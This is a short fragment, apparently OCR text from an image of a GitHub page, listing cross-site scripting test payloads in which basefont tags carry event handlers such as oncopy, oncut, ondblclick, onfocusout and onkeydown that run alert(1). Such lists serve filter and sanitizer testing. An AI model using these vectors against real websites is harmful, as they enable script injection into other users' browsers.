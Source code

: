 # add-
&lt;basefont oncopy="alert(1)" contenteditable>test&lt;/basefont> &lt;basefont oncut="alert(1)" contenteditable>test&lt;/basefont> &lt;basefont ondblclick="alert(1)">test&lt;/basefont> &lt;basefont onfocusout=alert(1) tabindex=1 id=x>&lt;/basefont>&lt;input autofocus> &lt;basefont onkeydown="alert(1)" contenteditable>test&lt;/basefont> 
